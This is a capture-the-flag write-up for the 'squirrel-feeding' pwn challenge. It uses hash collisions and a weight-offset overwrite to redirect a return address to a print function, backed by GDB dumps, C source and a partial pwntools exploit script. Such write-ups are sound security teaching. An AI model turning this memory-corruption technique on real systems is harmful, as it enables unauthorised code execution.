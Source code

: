 ```hash_string``` calculates the hash value of given string by calculating the sum of each character multiplied by 31.
For example, by passing '1' as key, it will calculate to (49 * 31) % 10 = 9. To prevent overlap, we add '2' at the end of every increment so that the hash won't change: (49 * 31 + (50 * 31)*x) % 10 = 9, where x is the number of '2's we add.

### So what can we change?
By running GDB, we can see the original contents of where our new "entry" will be:
```bash
gdb-peda$ x/8gx 0x7fffffffdeb0+1048
0x7fffffffe2c8: 0x00005555555592a0      0x00007fffffffe2e0
0x7fffffffe2d8: 0x00005555555559c0      0x0000000000000001
0x7fffffffe2e8: 0x00007ffff7db3d90      0x0000000000000000
0x7fffffffe2f8: 0x000055555555593e      0x00000001ffffe3e0
```

Here, ```0x7fffffffe2c8``` is where name goes and ```0x7fffffffe2d8``` is where weight goes.

Our current "weight" is *main+130, we can change this by adding or subtracting offset on this address to point towards our new return address.

The new return address should be ```print+4```.
If we look at increment again:
```c
        if (i == m->data->bin_sizes[index]) {
            strncpy(entry->name, key, MAX_NAME_LEN);
            entry->weight += amount;
            if (key != FLAG_SQUIRREL_NAME) printf("New squirrel %s has weight %zu lbs\n", entry->name, entry->weight);
            m->data->bin_sizes[index]++;
            // TODO: enforce that new weight does not exceed the "presidential chonk!"
            get_max_weight(&flag_map, FLAG_SQUIRREL_NAME);
            return;
        }
```
It calls ```get_max_weight```, which does nothing, but this will set the arguments (rdi, rsi) to &flag_map and FLAG_SQUIRREL_NAME.
We can pass these arguments directly to ```print``` since they do not change until loop returns to main->print.

The offset from *main+130 to *print+4 turns out to be -0x4ae.

## Exploit
We simply need to add 4 buffer entries and pass on the final malicious entry at the end, which could look like:
```python
#!/usr/bin/python3
from pwn import *
context.log_level='debug'
context.arch='amd64'
context.terminal = ['tmux', 'splitw', '-h', '-F' '#{pane_pid}', '-P']
p=process('./challenge')
# p=remote("squirrel-feeding.wolvctf.io",1337)
ru 		= lambda a: 	p.readuntil(a)
r 		= lambda n:		p.read(n)
sla 	= lambda a,b: 	p.sendlineafter(a,b)
sa 		= lambda a,b: 	p.sendafter(a,b)
sl		= lambda a: 	p.sendline(a)
s 		= lambda a: 	p.send(a)


for i in range(4):
    sla("> ", "1")
    sla(": ", "1"+"2"*i) # (49 + 50*i) % 10 = 9
    sla(": ", "1")

# gdb.attach(p)
```